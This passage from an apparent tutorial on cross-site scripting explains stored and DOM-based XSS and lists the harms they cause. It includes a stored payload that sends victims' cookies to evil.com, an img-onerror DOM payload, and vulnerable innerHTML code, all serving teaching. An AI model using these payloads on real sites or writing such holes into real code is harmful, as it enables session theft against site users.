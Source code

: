 When this URL is clicked, the script executes in the victim's browser.

### 2. Stored XSS

In stored XSS, the malicious script is stored on the target server, such as in a database, message forum, comment field, etc.

**Example scenario:**

A comment system that stores user comments and displays them to other users:

```javascript
// Server-side code (simplified)
storeInDatabase(userComment);

// Client-side rendering of comments
document.getElementById('comments').innerHTML = fetchedComments;
```

An attacker submits a comment containing:

```html
Nice post! <script>document.location='https://evil.com/steal.php?cookie='+document.cookie</script>
```

Every user who views the page with this comment would have their cookies stolen.

### 3. DOM-based XSS

DOM-based XSS occurs when client-side JavaScript dynamically writes user input to the page without sanitization.

**Example scenario:**

A client-side router that reads the URL fragment:

```javascript
// Vulnerable code
const userName = window.location.hash.substring(1);
document.getElementById('welcome').innerHTML = 'Welcome, ' + userName;
```

An attacker crafts a URL:

```
https://example.com/#<img src="x" onerror="alert('XSS')">
```

When loaded, the script executes in the victim's browser.

## Why XSS is Dangerous: The Attack Surface

XSS gives attackers the ability to execute arbitrary JavaScript in a victim's browser, which can lead to:

1. **Session hijacking** : Stealing cookies or session tokens
2. **Identity theft** : Capturing login credentials
3. **Data theft** : Accessing sensitive information visible in the DOM
4. **Site defacement** : Modifying the appearance of the website
5. **Malware distribution** : Redirecting users to malicious sites
6. **Network scanning** : Probing internal networks from the victim's browser
